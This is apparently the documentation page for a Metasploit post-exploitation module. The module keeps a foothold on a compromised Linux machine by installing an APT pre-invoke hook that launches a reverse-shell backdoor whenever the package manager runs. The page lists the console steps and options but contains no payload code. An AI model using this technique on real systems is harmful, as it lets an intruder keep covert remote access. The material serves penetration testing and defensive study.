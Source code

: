 ## Apt package manager persistence

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. Module creates a pre-invoke hook
for APT in apt.conf.d. The Hook name syntax is numeric followed by text.  

### Testing

1. Exploit a box
2. `use linux/local/apt_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs apt-get update the payload will launch.  You must set handler accordingly.

### Options

**BACKDOOR_NAME**
Name of backdoor executable
 
**HOOKNAME**
Name of pre-invoke hook to be installed in /etc/apt/apt.conf.d/ default is (05new-hook).
Pre-invoke hooks name syntax is numeric followed by text. 
  
**SESSION**
The session to run this module on.
 
### Advanced        Options

**WritableDir**
Writable directory for backdoor default is (/usr/local/bin/)       



